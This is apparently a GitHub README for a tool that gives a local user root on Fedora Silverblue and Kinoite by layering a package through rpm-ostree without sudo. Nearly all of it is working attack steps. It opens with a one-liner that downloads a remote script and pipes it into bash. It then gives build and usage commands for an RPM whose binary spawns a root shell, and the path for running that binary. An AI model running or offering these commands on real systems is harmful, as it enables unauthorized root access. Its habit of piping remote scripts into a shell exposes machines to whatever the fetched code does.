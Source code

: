 A privilege escalation tool for Fedora immutable desktops (Silverblue, Kinoite, etc.), using the fact that `rpm-ostree` doesn't need `sudo`.

This is considered intended behavior: https://discussion.fedoraproject.org/t/76173/2, https://github.com/coreos/rpm-ostree/issues/745, https://github.com/coreos/rpm-ostree/pull/825

## One-Liner
```
bash <(curl https://raw.githubusercontent.com/rohanssrao/silverblue-privesc/main/privesc.sh)
```

## Manual

**Requirements:**

```bash
dnf install rpmdevtools gcc glibc-static
```

**Building:**

```bash
rpmbuild --bb --define "_rpmdir $(pwd)" --define "_rpmfilename privesc.rpm" privesc.spec
```
This generates `privesc.rpm` in the current directory. Installing the package creates `/usr/bin/privesc` which simply runs bash as root.

**Usage:**

```bash
# Layer package
rpm-ostree install privesc.rpm
# Enter root shell
"$(ls -td /ostree/deploy/fedora/deploy/*/ | head -1)"/usr/bin/privesc
```
